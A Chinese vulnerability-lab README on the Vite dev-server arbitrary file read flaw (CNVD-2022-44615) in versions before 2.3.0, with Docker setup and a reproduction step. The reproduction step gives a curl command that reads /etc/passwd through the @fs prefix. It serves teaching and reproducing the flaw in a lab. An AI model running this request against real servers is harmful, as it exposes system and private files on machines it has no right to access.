

# Vite开发服务器任意文件读取漏洞（CNVD-2022-44615）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 2.3.0 版本之前，可以通过 `@fs` 前缀读取文件系统上的任意文件。

参考链接：

- <https://github.com/vitejs/vite/issues/2820>

## 环境搭建

执行以下命令启动Vite 2.1.5开发服务器：

```bash
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:3000`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

使用标准的`@fs`前缀访问`/etc/passwd`，可以获取文件内容：

```bash
curl "http://your-ip:3000/@fs/etc/passwd"
```


